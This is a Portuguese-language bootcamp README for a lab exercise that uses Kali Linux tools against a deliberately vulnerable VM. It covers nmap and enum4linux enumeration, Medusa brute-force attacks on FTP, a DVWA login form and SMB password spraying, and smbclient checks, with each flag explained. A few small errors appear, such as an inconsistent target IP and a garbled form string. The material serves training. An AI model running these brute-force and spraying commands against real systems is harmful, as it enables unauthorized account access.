

# Simulando-um-Ataque-de-Brute-Force-de-Senhas-com-Medusa-e-Kali-Linux
Desafio de projeto BootCamp Santander - Cibersegurança 2025.

# Comandos Linux:
## Ping máquina vulnerável:
Pingar máquina com vulnerabilidade: ping ip_maquina → ex: ping 192.168.56.103

## Enumeração:
nmap -sV -p 21,22,80,445,139 192.168.56.103

nmap → ferramenta usada para verificar quais portas estão abertas.
-sV → tenta identificar a versão do serviço que está rodando em cada porta.
-p 21,22,80,445,139 → específica quais portas devem ser verificadas.
192.168.56.103 → ip host.

## Verifica se fpt está ativo:
ftp 192.168.56.103

## Criar arquivo com usuários e senhas:
echo -e ‘user\nmsfadmin\nadmin\nroot’ > users.txt → será criado o arquivo users.txt e dentro dele serão colocados usuários: user, msfadmin, admin e root.

echo -e ‘123456\npassword\nqwert\nmsfadmin’ > pass.txt → será criado o arquivo pass.txt e dentro dele serão colocadas senhas: 123456, password, qwert e msfadmin.

Realizar o ataque com Medusa:
medusa -h 192.168.56.103 -U users.txt -P pass.txt -M ftp -t 6

medusa → É uma ferramenta de brute force para testar combinações de usuários e senhas em vários serviços (FTP, SSH, SMB, etc.).
-h 192.168.56.103 → É o IP da máquina que você quer atacar/testar.
-U users.txt → Arquivo que contém nomes de usuários que serão testados no ataque.
-P pass.txt → Arquivo de senhas que serão testadas.
-M ftp → Define o módulo (o serviço que será atacado).
-t 6 → Número de threads (processos simultâneos).

Resultado saída:

## Validar acesso (manualmente):
ftp 192.168.56.103
(Colocar o usuário e senha que foram checados no ataque)

# Ataques em formulários web
## Formulário para teste:
Colocar no navegador: 192.168.56.103/dvwa/login.ph

## Criar arquivo com usuários e senhas:
echo -e ‘user\nmsfadmin\nadmin\nroot’ > users.txt → será criado o arquivo users.txt e dentro dele serão colocados usuários: user, msfadmin, admin e root.

echo -e ‘123456\npassword\nqwert\nmsfadmin’ > pass.txt → será criado o arquivo pass.txt e dentro dele serão colocadas senhas: 123456, password, qwert e msfadmin.

## Ataque em formulário HTTP:
medusa -h 192.168.56.130 -U users.txt -P pass.txt -M http \
-m PAGE: ‘/dvwa/login.php’ \
-m FORM: úsername=^USER^&password=^PASS^&Login=Login’ \
-m ‘FAIL=Login failed’ -t 6

-M http → Define o módulo (protocolo) (o ataque é contra um formulário HTTP).
-m PAGE:'/dvwa/login.php' → Caminho da página do formulário onde o login é enviado.
-m FORM:'username=^USER^&password=^PASS^&Login=Login' → Específica como montar o conteúdo do formulário POST. 
* username=^USER^ = → recebe o valor substituído por cada usuário da lista. 
* password=^PASS^ → recebe a senha que está sendo testada.
* Login=Login → simula o botão/ação do formulário original.
-m 'FAIL=Login failed' → Define a mensagem de falha que o Medusa deve procurar na resposta.

Saída:

# Simulando em ambiente corporativo:
## Enumeração
enum4linux -a 192.168.56.103 | tee enum4_output.txt

enum4linux → É a ferramenta usada para fazer enumeração em sistemas Windows via SMB.
-a → Manda o enum4linux rodar todos os tipos de enumeração possíveis.
192.168.56.103 → É o endereço IP do alvo que você quer enumerar.
| tee enum4_output.txt → O símbolo | envia a saída do comando para outro comando. O comando tee faz duas coisas ao mesmo tempo:
* mostra a saída na tela
* salva a saída no arquivo enum4_output.txt

## Acessar o arquivo com os dados:
less enum4_output.txt

## Criar arquivo com usuários e senhas:
echo -e ‘user\nadmin\nservice’ > smb_users.txt → será criado o arquivo smb_users.txt e dentro dele serão colocados usuários: user, admin e service.

echo -e ‘password\n123456\nWelcome123\nmsfadmin’ > senhas_spray.txt → será criado o arquivo pass.txt e dentro dele serão colocadas senhas: password, 123456, Welcome123 e msfadmin.

## Ataque em SMB:
medusa -h 192.168.56.103 -U smb_users.txt -P senhas_spray.txt -M smbt -t 2 -T 50

-h 192.168.56.103 → define o host alvo onde o ataque será realizado.
-U smb_users.txt → arquivo contendo nomes de usuários para testar.
-P senhas_spray.txt → arquivo contendo senhas (normalmente poucas, para password spraying).
-M smbt → módulo SMB usado para autenticação em serviços Windows.
-t 2 → usa 2 threads simultâneas (2 usuários ao mesmo tempo).
-T 50 → até 50 hosts em paralelo.

Saída:

## Provar que acesso é real:
smbclient -L //192.168.56.103 -U msfadmin

smbclient → ferramenta para conectar e listar recursos SMB compartilhados
-L //192.168.56.103 → lista os compartilhamentos disponíveis no host 192.168.56.103
-U msfadmin → específica o usuário que será usado para autenticação (vai pedir a senha depois)

